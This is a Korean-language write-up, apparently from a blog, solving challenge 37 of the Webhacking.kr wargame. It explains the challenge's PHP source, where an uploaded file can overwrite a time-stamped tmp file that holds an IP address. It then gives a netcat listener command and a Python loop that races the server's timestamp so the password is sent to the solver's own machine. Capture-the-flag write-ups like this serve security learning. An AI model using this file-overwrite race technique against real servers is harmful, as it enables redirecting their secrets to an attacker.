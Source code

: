 ```yaml
---
layout: post
title: "[풀이] Webhacking.kr 37번 문제"
description: ""
date: 2017-07-14
tags: []
comments: true
share: true
---
```


![](/assets/images/posts/779/2775FB33596868D2391301.PNG)

  

37번은 250 스코어의 문제입니다.

  

문제를 보면, 알수 없는 파일 리스트와 7777 포트가 열려있는데 루프백 아이피 그리고 폼 버튼이 보입니다.

  

하단에 위치한 폼 버튼의 임의로 이미지 사진(20170213_230929.png)을 업로드 했습니다.

업로드 이 후, 이미지가 정상적으로 리스트에 나오는 것을 확인했습니다.

  

    ....numbertmp-1499973060tmp-1499996289tmp-1499996421tmp-1499996897tmp-1499996923127.0.0.1:7777

  

현재까지의 시점을 보았을 때, 이로는 정답의 실마리를 찾지 못하여

소스코드를 열어보니 `index.phps` 가 숨어있었습니다.

  

문제의 힌트를 위해 해당 파일의 경로로 이동합니다.

  

이동했다면 아래와 같이 문제를 구성하는 코드가 보일 것 입니다.

코드의 대해서 잠깐 얘기해보겠습니다.

  

로컬 시간을 `time` 변수에 대입하고 "tmp" 디렉토리에 "tmp-".$time 이라는 파일의 루프백 아이피를 넣어 생성합니다.

"tmp/.number" 파일은 파일의 갯수를 측정하는 파일로써 find 함수로 한줄 씩 읽으며 배열로 반환하고

그 수를 증가시킨 값을 다시 본 파일의 적습니다.

  

tmp 파일이 30개를 이상이면 unlink 하는 부분 또한 있는데 별로 중요한 내용은 아니니 설명하지 않겠습니다.

  

중요한 부분은 다음에 나오는 파일명 중 특정 문자열을 공백으로 치환하는 부분입니다.

치환의 대상자는 아래와 같다.

  

  * <
  * >
  * ,
  * .
  * space 

  

tmp 디렉토리 이하에서 업로드 된 파일명을 쓰기 모드로 열고 클라이언트의 공인 ip를 작성합니다.

  

이후 소켓 함수를 이용하여 ck 변수에 저장된 ip 값의 7777 포트로 연결합니다.

연결 뒤에는 request 변수에 저당된 값을 발신합니다.

  

이 것이 내가 수신 받아야할 정답 값인 것 입니다.

  

문제에서 요청 시 7777포트로 요청 아이피에 정답을 발신합니다.

정답을 수신하기 위해 nc를 사용하여 7777 포트를 열어줍니다.

  

    nc - nvl -p 7777

  

이 후 공유기 사용자의 경우 포트 포워드 설정해주시면됩니다.

  

  

매 요청 시 "tmp-{구분자 = 시간}" 값이 동적으로 변하기에 이를 저는 loop 를 사용하여 해결했습니다.

소스는 아래와 같습니다.

  

  

    import requestsurl = 'http://webhacking.kr/challenge/web/web-18/index.php'files = {	'upfile' : ('tmp-1500000845',open('tmp-1500000845','rb'),'multipart/form-data')}cookies = {	'PHPSESSID': '세션 키 값'}for i in xrange(60):	response=requests.post(url, files = files, cookies = cookies)	print response.text

  

    $pw="???";$time=time();$f=fopen("tmp/tmp-$time","w");fwrite($f,"127.0.0.1");fclose($f);$fck=@file("tmp/.number");if($fck) $fck=$fck[0];if(!$fck) $fck=0;$fck++;$f2=fopen("tmp/.number","w");fwrite($f2,$fck);fclose($f2);$file_nm=$HTTP_POST_FILES[upfile][name];$file_nm=str_replace("","",$file_nm);$file_nm=str_replace(".","",$file_nm);$file_nm=str_replace(" ","",$file_nm);if($file_nm){$f=@fopen("tmp/$file_nm","w");@fwrite($f,$_SERVER[REMOTE_ADDR]);@fclose($f);}echo("");$kk=scandir("tmp");for($i=0;$i");$ck=file("tmp/tmp-$time");$ck=$ck[0];$request="GET /$pw HTTP/1.0\r\n";$request.="Host: $ck\r\n";$request.="\r\n";$socket=@fsockopen($ck,7777,$errstr,$errno,1);@fputs($socket,$request);@fclose($socket);echo("$ck:7777");if($fck>=30){$kk=scandir("tmp");for($i=0;$i<=count($kk);$i++){@unlink("tmp/$kk[$i]");}}

  
  
클리어 !

  

